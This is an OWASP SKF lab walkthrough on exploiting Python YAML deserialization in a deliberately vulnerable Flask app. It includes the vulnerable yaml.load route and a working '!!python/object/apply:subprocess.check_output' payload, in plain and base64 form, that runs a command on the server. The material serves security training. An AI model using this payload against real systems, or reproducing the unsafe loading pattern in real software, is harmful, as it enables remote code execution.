 # Deserialisation Yaml

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Yaml/1.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Yaml/2.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Yaml/1.png)

In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Yaml/3.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ["whoami"]
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Yaml/4.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}
